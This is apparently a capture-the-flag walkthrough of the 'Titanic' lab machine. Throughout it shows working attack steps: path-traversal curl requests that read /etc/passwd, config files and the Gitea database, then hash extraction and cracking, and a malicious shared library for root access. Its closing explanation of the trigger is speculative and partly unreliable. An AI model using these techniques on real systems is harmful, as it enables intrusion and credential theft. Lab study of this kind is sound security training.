


The first step is to start an Nmap scan.

```jsx
──(kali㉿kali)-[~]
└─$ nmap 10.10.11.55              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-16 06:24 EST
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.65s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
```

To get a complete overview, we use a default script scan and a service version scan.

```jsx
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.11.55
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-16 06:25 EST
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/16%OT=22%CT=1%CU=33238%PV=Y%DS=2%DC=T%G=Y%TM=67B1
OS:CB6D%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=B)OPS(O1=M53AST11NW7%O2=M53AS
OS:T11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=
OS:FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=
OS:M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   781.59 ms 10.10.16.1
2   452.02 ms titanic.htb (10.10.11.55)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.56 seconds

```

To ensure our system resolves `titanic.htb` to `10.10.11.55`, we need to verify the hostname resolution.

```jsx
┌──(kali㉿kali)-[~]
└─$ sudo cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.55 titanic.htb
```
we proceed with subdomain enumeration.

```jsx
──(kali㉿kali)-[~]
└─$ wfuzz -c -w ~/Downloads/subdomains-top1mil-20000.txt  -H "Host: FUZZ.titanic.htb" --sc 200 http://titanic.htb/ 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 20000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000019:   200        275 L    1278 W     13870 Ch    "dev" 
```

We have found a subdomain, so now update the /etc/hosts.


```jsx
──(kali㉿kali)-[~]
└─$ cat /etc/hosts      
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.55 titanic.htb
10.10.11.55 dev.titanic.htb
``` 



Now, under exploration, we have a couple of repositories.



Under `flask-app`, we have an `app.py`.

### Flask Application - Vulnerability Analysis

Inside `flask-app`, we have an `app.py` file containing the following endpoint:

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```
Here, the ticket parameter is not sanitized, meaning it may be possible to escape TICKETS_DIR using a ../../../ path traversal attack.

Since `titanic.htb` is vulnerable to path traversal, we begin by reading /etc/passwd.

```jsx
┌──(kali㉿kali)-[~]
└─$ curl "http://titanic.htb/download?ticket=..//..//..//..//etc/passwd" 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
```

### Extracting Gitea Configuration

While exploring `http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/`, we found an XML file containing Gitea’s `docker-compose` configuration:

```xml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

From this, we identified the volume mapping:

/home/developer/gitea/data:/data


Using the path traversal vulnerability, we retrieved the app.ini configuration file containing the database location:

```
curl "http://titanic.htb/download?ticket=..//..//..//..//..//home/developer/gitea/data/gitea/conf/app.ini"
```

This revealed critical database information.

```jsx
[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

```
Using the path traversal vulnerability, we can directly download the Gitea database:

```jsx
┌──(kali㉿kali)-[~]
└─$ curl -o gitoea.db "http://titanic.htb/download?ticket=..//..//..//..//..//home/developer/gitea/data/gitea/gitea.db"

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  5 2036k    5  105k    0     0  26763      0  0:01:17  0:00:04  0:01:13 26759
100 2036k  100 2036k    0     0   112k      0  0:00:18  0:00:18 --:--:--  174k
```

Once downloaded, we can analyze the database structure. There are multiple tables, but we focus on the user table.


```jsx
┌──(kali㉿kali)-[~]
└─$ sqlite3 gitoea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
.
.
.
.
.
.
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook                  
sqlite> 
sqlite> SELECT passwd,salt,passwd_hash_algo,name from user;
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b|pbkdf2$50000$50|administrator
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34|pbkdf2$50000$50|developer
sqlite> 
```

We use the following command to extract password hashes from the Gitea database:

```jsx                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ sqlite3 gitoea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes


administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
                                                                                         
                                                                                        
``` 

Now, we use Hashcat to crack these hashes:

```jsx                                                                                   
┌──(kali㉿kali)-[~/Downloads/titanic/docker-config]
└─$ hashcat -m 10900 -a 0 gitea.hashes /usr/share/wordlists/rockyou.txt --user -w 3

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2913/5891 MB (1024 MB allocatable), 4MCU
.
.
.
.
.
.
.

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:********<password>********
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => [
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

```
After successfully cracking the developer's password, we proceed to log in via SSH and we have user flag.

```jsx
┌──(kali㉿kali)-[~/Downloads/titanic/docker-config]
└─$ ssh developer@10.10.11.55     
developer@10.10.11.55's password: 

Last login: Sun Feb 16 10:55:43 2025 from 10.10.14.23
developer@titanic:~$ ls
gitea  linpeas.sh  mysql  snap  user.txt
developer@titanic:~$ cat user.txt 
************ee04a42b9bfc2ec79a1
developer@titanic:~$ 

```

### Privilege Escalation via ImageMagick Exploit

We discovered that the server is using ImageMagick, which is vulnerable to a shared library hijacking attack. The vulnerability allows us to inject a malicious `libxcb.so.1` file and execute arbitrary commands with elevated privileges.

Navigate to the target directory:
```bash
cd /opt/app/static/assets/images
```
we have a blog here which can help
[Image Magic](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)


The gcc command we ran to creates a malicious shared library (libxcb.so.1) and places it in the /opt/app/static/assets/images directory.

```jsx
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/furious5.txt");
    exit(0);
}
EOF

```

To trigger it, run `cp home.jpg furious5.jpg.`

```jsx
developer@titanic:/opt/app/static/assets/images$ cp home.jpg furious5.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  furious5.jpg  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log  root.jpg
developer@titanic:/opt/app/static/assets/images$ ls -al
total 1760
drwxrwx--- 2 root      developer   4096 Feb 16 13:44 .
drwxr-x--- 3 root      developer   4096 Feb  7 10:37 ..
-rw-r----- 1 root      developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root      developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root      developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 developer developer 232842 Feb 16 13:44 furious5.jpg
-rw-r----- 1 root      developer 232842 Feb  3 17:13 home.jpg
-rwxrwxr-x 1 developer developer  15616 Feb 16 13:44 libxcb.so.1
-rw-r----- 1 root      developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root      developer    545 Feb 16 13:44 metadata.log

```
Now, under `/tmp`, we have `furious5.txt` that contains the flag.

```jsx
developer@titanic:/tmp$ ls
furious5.txt
snap-private-tmp
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-apache2.service-df6NPf
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-ModemManager.service-60nFnD
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-logind.service-V6zj5y
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-resolved.service-OCPAD9
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-timesyncd.service-ws0Fij
vmware-root_607-3988556120

```

### **How This Attack Works**  

1. **Creating a Malicious Shared Library**  
   - You crafted a malicious version of `libxcb.so.1`, which is a commonly used shared library.  
   - This library contains malicious code that, when executed, reads the contents of `/root/root.txt` and writes it to `/tmp/furious5.txt`.  

2. **Placing the Library in a Directory Used for Library Loading**  
   - You placed `libxcb.so.1` inside `/opt/app/static/assets/images/`, a directory that might be included in `LD_LIBRARY_PATH` or automatically used by dynamically linked programs.  
   - This ensures that when a vulnerable program searches for `libxcb.so.1`, it loads your malicious version instead of the legitimate one.  

3. **Triggering the Execution of the Malicious Library**  
   - You executed a command (`cp home.jpg furious5.jpg`) that indirectly loads `libxcb.so.1`.  
   - If `cp` (or another command, like `ls`) depends on a library that in turn loads `libxcb.so.1`, it will unknowingly execute your malicious code.  

4. **Execution of the Payload**  
   - Once the malicious library is loaded, its constructor function (`__attribute__((constructor))`) or another hook executes.  
   - The library reads `/root/root.txt` and saves its contents into `/tmp/furious5.txt`.  

5. **Extracting the Flag**  
   - You check `/tmp/furious5.txt` and find the flag successfully exfiltrated.  

